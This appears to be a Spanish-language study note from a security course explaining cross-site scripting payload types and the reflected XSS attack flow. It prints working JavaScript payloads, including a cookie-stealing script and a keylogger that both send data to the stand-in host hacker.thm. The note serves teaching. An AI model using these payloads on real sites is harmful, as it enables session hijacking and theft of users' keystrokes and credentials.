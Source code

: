 Recordamos que un payload es aquella parte del exploit (generalmente código) que determina el propósito del ataque, es decir, define el comportamiento del dispositivo una vez hemos explotado la vulnerabilidad y hemos ganado control sobre el mismo.

Existen distintos tipos de payloads:

- *Proof Of Concept*: Estos tipos de payloads se emplean sólo para asegurar que la vulnerabilidad existe:

	```html
	<script>alert(1)</script>
	```

- *Session Stealing*: A menudo, las páginas web controlan la sesión del usuario almacenando piezas de información en el navegador (cookies, tokens, etc) que son extraibles mediante la instrucción correcta en JavaScript:

	```html
	<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
	```

- *Key Logger*: Un keylogger es un tipo de malware, código malicioso, que captura, guarda y envía las teclas que pulsa un usuario a un atacante. De esta forma se pueden reconstruir piezas de inforamación sensible:

	```html
	<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
	```

	<br />

**Reflected XSS**

El *Reflected XSS* es un tipo de XSS en el que el payload JavaScript malicioso se incluye a modo de elemento HTML (\<script>) en el documento HTML que recibe el cliente y que se procesa en su navegador.

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220815181302.png' | relative_url }}" text-align="center"/>
</div>

La imagen anterior suele resumir el caso típico:

1. Un atacante envía un link malicioso a una víctima ingenua.
2. La víctima clicka en el link. (Recordamos que un link no es más que una URL y esta a su vez no es más que una instrucción para que el navegador procese una HTTP request a un servidor externo. En este caso, el link contiene una parte maliciosa (que sería el payload) que hace que la respuesta HTML esté "envenenada)". 
3. El navegador del cliente procesa la instrucción del link y lleva a cabo una solicitud HTTP y recibe a modo de respuesta un documento HTML por parte del servidor web que contiene código JavaScript malicioso.
4. El código malicioso es ejecutado por el navegador de la víctima y realiza una acción que beneficia al atacante a costa del cliente que generalmente consiste en la apropiación de datos sensibles (como cookies, contraseñas, etc). 

	<br />

